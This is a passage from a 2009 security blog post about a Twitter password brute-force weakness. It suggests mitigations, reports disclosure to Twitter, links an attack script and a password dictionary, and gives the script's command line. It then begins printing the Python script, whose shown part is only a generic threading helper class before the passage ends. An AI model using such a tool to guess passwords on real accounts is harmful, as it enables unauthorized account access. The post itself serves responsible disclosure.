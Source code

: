 If Twitter wants to minimize the probability of success for this
vulnerability it could:

- Enforce its stated rate limits.
- Start requiring minimally complex passwords.
- Complete the migration to OAuth.

As we like Twitter as much as the next, and because we are in favor of
good faith disclosure, we have notified them of our concerns. _Update_:
A Twitter representative has responded that the information provided has
been sent on to the right internal team at Twitter.

Here's the Code: <a href="http://praetorianprefect.com/wp-content/uploads/2009/09/threadedtwitter.py.txt" title="threadedtwitter.py">threadedtwitter.py</a>
<br>
Dictionary: <a href="http://praetorianprefect.com/wp-content/uploads/2009/09/dic.txt" title="dic.txt">dic.txt</a>

_Please note, the code is provided for demonstration purposes only, should not be run ever, and contains intentional errors so that attempts to run it will not work._

The command is as follows: `twitterauthcheck.py username passwordlist.txt`

```python
import threading,Queue
import socket
import tweethon
import urllib2
import socket
import sys

class Threader:
    # Class taken from: Sept 3 2004, Justin A: http://code.activestate.com/recipes/302746/
    def __init__(self, numthreads):
        self._numthreads=numthreads

    def get_data(self,):
        raise NotImplementedError, "You must implement get_data as a function that returns an iterable"
        return range(10000)
    def handle_data(self,data):
        raise NotImplementedError, "You must implement handle_data as a function that returns anything"
        time.sleep(random.randrange(1,5))
        return data*data
    def handle_result(self, data, result):
        raise NotImplementedError, "You must implement handle_result as a function that does anything"
        print data, result

    def _handle_data(self):
        while 1:
            x=self.Q.get()
            if x is None:
                break
            self.DQ.put((x,self.handle_data(x)))

    def _handle_result(self):
        while 1:
            x,xa=self.DQ.get()
            if x is None:
                break
            self.handle_result(x, xa)

    def run(self):
        if hasattr(self, "prerun"):
```